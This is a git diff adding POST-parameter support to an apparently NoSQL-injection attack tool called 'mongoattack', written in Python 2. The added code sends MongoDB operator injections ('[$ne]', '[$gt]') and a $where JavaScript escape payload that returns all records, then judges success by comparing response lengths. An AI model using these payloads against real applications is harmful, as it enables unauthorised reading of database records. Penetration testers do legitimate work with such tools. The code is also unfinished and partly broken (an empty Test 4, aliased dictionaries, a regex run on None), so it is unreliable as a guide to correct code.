

[update] postWeb->test4

diff --git a/mongoattack/Mode/inject.py b/mongoattack/Mode/inject.py
@@ -55,7 +55,12 @@ def postWeb(reqFile):
 	possAddrs = []
 	global validAddrs
 	validAddrs = []
-	addedTargetUrls = set() 
+	global addedTarget
+	addedTarget = dict()
+	global paramNames
+	paramNames = []
+	global paramValues
+	paramValues = []
 	appUp = False
 	strAttack = False
 	intAttack = False
@@ -68,6 +73,112 @@ def postWeb(reqFile):
 		printErrMsg('[Error] Something went wrong while trying to read the content of file \'%s\'' % reqFile)
 		return
 	parseBurpLog(content)
+	if not addedTarget['url'] or not addedTarget['data']:
+		printErrMsg('[Error] Unable to find usable request(s), in provided file (\'%s\')' % reqFile)
+		return
+
+	print '[*] Testing connection to the target URL.'
+	url = addedTarget['url']
+	injectPostParams(url,addedTarget['data'])
+
+
+
+def injectPostParams(url,data):
+	postParams = dict()
+	injectName = []
+	postData = data
+	global testNum
+	testNum = 1
+	
+
+	params = postData.split('&')
+	for item in params:
+		index = item.find('=')
+		postParams[item[0:index]] = item[index+1:len(item)]
+		#injectParams[item[0:index]] = item[index+1:len(item)]
+	try:
+		req = requests.post(url,data=postParams,headers=HEADERS)
+		if req.status_code == 200:
+			appUp = True
+			resLength = int(len(req.content))
+			print '[*] App is up, got response length of %s' % resLength
+		else:
+			printErrMsg('[Error] Got %s from the app, check your options.' % req.status_code)
+			return
+
+	except Exception, e:
+		printErrMsg('[Error] %s. Looks like the server didn\'t respond.  Check your options.' % e)
+		return
+	if appUp == True:
+		index = 1
+		print '[+] List of post params:'
+		for params in postParams:
+			print '    [%s] %s' % (index, params)
+			index += 1
+		try:
+			injectIndex = getQuesMsg('Choose a parmeter to inject: ')
+			injOpt = postParams.keys()[int(injectIndex)-1]
+		except Exception, e:
+			printErrMsg('[Error] %s. Somthing wrong... Check inject parmeters.' % e)
+			return
+		injectSize = getQuesMsg('[*] Input test random string size: ')
+		injectstr = getInjectStr(int(injectSize))
+		postParams[injOpt] = injectstr
+
+		req = requests.post(url,data=postParams,headers=HEADERS)
+		basedInjectLength = int(len(req.content))
+		print '[*] Got response length of %s.' % basedInjectLength
+
+		LengthDelta = abs(resLength - basedInjectLength)
+		if LengthDelta == 0:
+			print '[*] No change in response size injecting a random parameter..'
+
+		#Test 1 Generate not equals injection
+		neDict = postParams
+		neDict[injOpt+'[$ne]'] = neDict[injOpt]
+		del neDict[injOpt]
+		req = requests.post(url, data=neDict, headers=HEADERS)
+		print '[*] Testing Mongo PHP not equals associative array injection...'
+		errorCheck = errorTest(req.content,testNum)
+
+		if errorCheck == False:
+			injLen = int(len(req.content))
+			checkResult(basedInjectLength,injLen,testNum,postParams)
+			testNum += 1
+		else:
+			testNum += 1
+
+		# Test 2 generate $gt injection
+		gtDict = postParams
+		gtDict.update({injOpt:''})
+		gtDict[injOpt+'[$gt]'] = gtDict[injOpt]
+		del gtDict[injOpt]
+		req = requests.post(url,data=gtDict,headers=HEADERS)
+		print '[*] Testing PHP/ExpressJS >Undefined Injection...'
+		errorCheck = errorTest(req.content,testNum)
+
+		if errorCheck == False:
+			injLen = int(len(req.content))
+			checkResult(basedInjectLength,injLen,testNum,postParams)
+			testNum += 1
+
+		#Test 3
+		postParams.update({injOpt:"a'; return db.a.find(); var dummy='!"})
+		req = requests.post(url,data=postParams,headers=HEADERS)
+		print '[*] Testing Mongo <2.4 $where all Javascript string escape attack for all records...'
+		errorCheck = errorTest(req.content,testNum)
+
+		if errorCheck == False:
+			injLen = int(len(req.content))
+			checkResult(basedInjectLength,injLen,testNum,postParams)
+			testNum += 1
+		else:
+			testNum += 1
+
+		#Test 4
+
+	
+
 
 
 def getWeb(url):
@@ -298,7 +409,15 @@ def errorTest(errorcheck, testNum):
 			possAddrs.append(urlArray[testNum])
 			return True
 		else:
-			pass
+			if testNum == 1:
+				possAddrs.append(str(neDict))
+				return True
+			elif testNum == 2:
+				possAddrs.append(str(gtDict))
+				return True
+			else:
+				possAddrs.append(str(postParams))
+				return True
 	else:
 		return False
 
@@ -393,7 +512,7 @@ def buildUrl(url, value):
 
 	try:
 		injectIndex = getQuesMsg('[*] Choose parmeters to inject (such as 1,2,3):')
-		print injectIndex.split(',')
+		#print injectIndex.split(',')
 		for i in injectIndex.split(','):
 			injectParams.append(paramNames[int(i)-1])
 	except Exception, e:
@@ -507,9 +626,7 @@ def parseBurpLog(content):
 			scheme = schemePort.group(1)
 			port = schemePort.group(2)
 		else:
-			scheme, port = None, None
-		print scheme, port 
-
+			scheme, port = None, None 
 		if not re.search(r"^[\n]*(%s).*?\sHTTP\/" % "|".join(getPublicTypeMembers(HTTPMETHOD, True)), request, re.I | re.M):
 			continue
 		if re.search(r"^[\n]*%s.*?\.(%s)\sHTTP\/" % ('GET', "|".join(CRAWL_EXCLUDE_EXTENSIONS)), request, re.I | re.M):
@@ -583,7 +700,9 @@ def parseBurpLog(content):
 			if not url.startswith("http"):
 				url = "%s://%s:%s%s" % (scheme or "http", host, port or "80", url)
 				scheme, port = None, None 
-			if not(None and not re.search(conf.scope, url, re.I)):
-				print url, method, cookie, tuple(headers)
-				print '---'*10
-				print data
+			if not(None and not re.search(None, url, re.I)):
+				addedTarget['data'] = data
+				addedTarget['cookie'] = cookie
+				addedTarget['method'] = method
+				addedTarget['headers'] = tuple(headers)
+				addedTarget['url'] = url
